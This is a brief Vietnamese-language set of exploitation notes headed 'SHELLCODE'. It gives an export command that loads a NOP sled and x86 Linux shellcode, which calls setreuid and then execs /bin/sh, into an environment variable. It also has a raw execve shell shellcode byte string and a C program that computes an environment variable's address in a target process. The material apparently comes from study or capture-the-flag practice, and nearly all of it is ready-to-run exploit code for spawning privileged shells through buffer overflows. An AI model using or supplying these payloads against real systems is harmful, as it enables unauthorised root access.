 # SHELLCODE
Biến môi trường
- export USERNAME=`perl -e 'print "\x90"x30,"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80","\x90"x30'`

Không biến môi trường 
```
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
```
Tìm địa chỉ của biến môi trường 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char * argv[]) {
        char * ptr;
        if(argc<3){
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }
        ptr = getenv(argv[1]);
        ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;  
        printf("%s will be at %p\n", argv[1], ptr);
}
```

